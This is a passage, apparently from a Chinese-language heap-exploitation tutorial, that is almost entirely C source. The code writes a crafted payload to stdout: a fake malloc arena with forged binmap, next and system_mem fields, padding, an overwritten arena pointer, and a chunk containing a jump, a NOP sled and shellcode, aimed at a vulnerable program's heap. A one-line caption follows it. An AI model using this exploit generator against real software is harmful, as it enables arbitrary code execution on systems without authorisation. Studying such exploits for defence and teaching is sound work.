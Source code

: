 ```
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```

漏洞程序的堆内存，在攻击者生成数据作为用户输入之后：
